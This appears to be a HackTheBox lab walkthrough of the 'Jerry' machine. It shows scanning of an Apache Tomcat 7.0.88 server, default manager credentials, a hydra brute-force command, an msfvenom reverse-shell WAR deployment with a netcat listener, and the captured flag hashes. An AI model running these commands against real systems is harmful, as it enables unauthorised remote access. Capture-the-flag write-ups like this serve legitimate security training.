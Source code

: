 ```yaml
---
layout: post
title: HackTheBox - Jerry
date: 2021-08-15 00:36:34 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [gobuster, nikto, tomcat, war, default credentials, hydra, msfvenom, htb-windows-easy, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/jerry/Jerry.png
---
```


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Jerry-full-port-scan.txt 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

### Port 80 (Apache Tomcat/7.0.88)

#### `gobuster`

```bash
$ gobuster dir -u http://$TARGET:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .jsp
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              jsp
[+] Timeout:                 10s
===============================================================
2021/08/14 20:48:16 Starting gobuster in directory enumeration mode
===============================================================
/aux                  (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/com4                 (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/index.jsp            (Status: 200) [Size: 11398]                 
/lpt2                 (Status: 200) [Size: 0]                     
/lpt1                 (Status: 200) [Size: 0]                     
/manager              (Status: 302) [Size: 0] [--> /manager/]     
/nul                  (Status: 200) [Size: 0]                     
                                                                  
===============================================================
2021/08/14 20:49:58 Finished
===============================================================
```

Since I was curious, I looked for exploits against **Apache Tomcat/7.0.88**:

```bash
$ searchsploit Tomcat 7.0.88
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                              | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                              | jsp/webapps/42966.py
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

But it appears that the server was not vulnerable:

![](/assets/img/htb/machines/windows/easy/jerry/CVE_2017_12617.png)

#### `nikto`

`nikto` revealed that the credentials to access the `/manager` are the default ones:

- **username**: `tomcat` 
- **password**: `s3cret` 

![](/assets/img/htb/machines/windows/easy/jerry/nikto.png)

> We could also bruteforce them using `hydra`:

```bash
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 $TARGET http-get /manager/html
```

![](/assets/img/htb/machines/windows/easy/jerry/hydra.png)

Once authenticated, the first thing that should come to our eyes is the fact that we can deploy WAR files:

![](/assets/img/htb/machines/windows/easy/jerry/tomcat.png)

## Exploitation

First we need to create a malicious WAR file using `msfvenom`, then we can start a listener:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$(vpnip) LPORT=1234 -f war > shell.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes
$ nc -lnvp 1234
listening on [any] 1234 ...
```

![](/assets/img/htb/machines/windows/easy/jerry/war.png)

If we click on **List applications** or if we simply refresh the page, the `shell` application should appear:

![](/assets/img/htb/machines/windows/easy/jerry/shell_app.png)

Clicking on it will execute it. Then we have a shell as 😯 ... **SYSTEM**!!!

![](/assets/img/htb/machines/windows/easy/jerry/shell.png)

```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"    
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

___

## Interesting links

- [C2 - SILENTTRINITY](https://github.com/byt3bl33d3r/SILENTTRINITY)